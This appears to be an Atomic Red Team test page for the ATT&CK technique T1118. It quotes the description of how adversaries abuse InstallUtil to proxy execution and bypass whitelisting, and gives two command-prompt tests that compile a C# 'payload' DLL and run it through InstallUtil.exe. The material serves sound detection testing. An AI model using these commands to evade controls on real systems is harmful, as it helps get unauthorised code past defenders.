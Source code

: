 # T1118 - InstallUtil
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1118)
<blockquote>InstallUtil is a command-line utility that allows for installation and uninstallation of resources by executing specific installer components specified in .NET binaries. (Citation: MSDN InstallUtil) InstallUtil is located in the .NET directories on a Windows system: <code>C:\Windows\Microsoft.NET\Framework\v<version>\InstallUtil.exe</code> and <code>C:\Windows\Microsoft.NET\Framework64\v<version>\InstallUtil.exe</code>. InstallUtil.exe is digitally signed by Microsoft.

Adversaries may use InstallUtil to proxy execution of code through a trusted Windows utility. InstallUtil may also be used to bypass process whitelisting through use of attributes within the binary that execute the class decorated with the attribute <code>[System.ComponentModel.RunInstaller(true)]</code>. (Citation: SubTee GitHub All The Things Application Whitelisting Bypass)</blockquote>

## Atomic Tests

- [Atomic Test #1 - InstallUtil uninstall method call](#atomic-test-1---installutil-uninstall-method-call)

- [Atomic Test #2 - InstallUtil GetHelp method call](#atomic-test-2---installutil-gethelp-method-call)


<br/>

## Atomic Test #1 - InstallUtil uninstall method call
Executes the Uninstall Method

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| source_file | location of the source file | Path | C:\AtomicRedTeam\atomics\T1118\src\T1118.cs|
| filename | location of the payload | Path | C:\AtomicRedTeam\atomics\T1118\src\T1118.dll|

#### Run it with `command_prompt`!
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:#{filename} /target:library #{source_file}
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U #{filename}
```
<br/>
<br/>

## Atomic Test #2 - InstallUtil GetHelp method call
Executes the Uninstall Method

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| filename | location of the payload | Path | C:\AtomicRedTeam\atomics\T1118\src\T1118.dll|

#### Run it with `command_prompt`!
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:C:\AtomicRedTeam\atomics\T1118\src\T1118.dll C:\AtomicRedTeam\atomics\T1118\src\T1118.cs 
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /? #{filename}
```
<br/>

